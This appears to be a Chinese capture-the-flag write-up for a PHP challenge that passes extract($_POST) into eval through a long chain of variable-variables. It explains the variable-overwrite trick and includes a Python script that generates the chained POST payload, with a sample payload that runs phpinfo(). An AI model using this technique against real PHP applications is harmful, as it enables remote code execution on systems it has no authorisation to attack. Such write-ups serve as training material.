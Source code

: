 ```php
<?php
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```

对php有基本了解的话，可以一眼看出本题的关键:

我们需要$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_ =我们想要执行的命令;

extract()函数介绍

![image-20240420225720936](./images/2024-4.15-4.21/image-20240420225720936.png)

结合本题来说，

假设我们post传入`_=a`那么`$_=a`，如果在post传入`a=b`那么`$$_=b`
以此类推传入一定数量的参数就可以了，最后一个的值是我们要传入eval的代码。
不过这`$`属实是有点多

针对本题目,可以利用python脚本来进行变量覆盖，当然你自己手动打payload也可以

```python
import string
s = string.ascii_letters 
t='_=a&'
payload="phpinfo();"
for i in range(35):
    t+=s[i]+"="+s[i+1]+'&'

t+=s[i]+'='+payload
print(t)


```

![image-20240420231046899](./images/2024-4.15-4.21/image-20240420231046899.png)

```
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=J&I=phpinfo();
```

借助hackbar来进行一个post传参

![image-20240420231202159](./images/2024-4.15-4.21/image-20240420231202159.png)

看到成功执行了我们要执行的代码phpinfo（）

那我们现在只需要替换后面的命令，来找flag就行。

![image-20240420231528685](./images/2024-4.15-4.21/image-20240420231528685.png)

![image-20240420231605362](./images/2024-4.15-4.21/image-20240420231605362.png)
